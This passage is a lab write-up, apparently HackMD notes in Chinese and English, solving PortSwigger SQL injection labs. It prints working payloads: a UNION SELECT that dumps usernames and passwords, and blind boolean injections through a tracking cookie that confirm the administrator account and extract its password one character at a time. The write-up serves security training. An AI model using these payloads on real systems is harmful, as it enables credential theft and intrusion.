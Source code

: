 #### /filter?category=Pets' UNION SELECT NULL,username| |'~'||password FROM users--
![image](https://hackmd.io/_uploads/H1FKNhGK6.png)
```
可以看到||'~'||，代表輸出資料將username與password之間用 ~ 為間隔
若使用/filter?category=Pets' UNION SELECT NULL,username||'%20'||password FROM users--
將會以空格隔開。
```
### Solved
LOGIN
![image](https://hackmd.io/_uploads/HJFhV3zK6.png)
![image](https://hackmd.io/_uploads/Hkqp4nfFa.png)

## Lab: Blind SQL injection with conditional responses
![image](https://hackmd.io/_uploads/ByG-BhGYa.png)
https://0a40004a048c456381f3fa64004f002d.web-security-academy.net/
![image](https://hackmd.io/_uploads/ryHfr2zF6.png)

### Solution
#### Modify TrackingID (Cookie)
![image](https://hackmd.io/_uploads/S1vsr2GYT.png)
![image](https://hackmd.io/_uploads/rk6182MKT.png)
> Welcome back! 
> 成功登入

#### ' AND (SELECT 'chw' FROM users LIMIT 1)='chw
![image](https://hackmd.io/_uploads/SJYew3MKp.png)
> 驗證是否存在users table 
> 存在
#### ' AND (SELECT 'chw' FROM users WHERE username='administrator')='chw
![image](https://hackmd.io/_uploads/BJ-UvnMKa.png)
> 驗證是否存在administrator
> 存在
#### ' AND (SELECT 'chw' FROM users WHERE username='administrator' AND LENGTH(password)>1)='chw
> 驗證密碼是否大於1,3,5,10, 20(20錯誤)
> 驗證密碼是否大於19，密碼共20個字元

#### ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
![image](https://hackmd.io/_uploads/rJTmHsXFT.png)

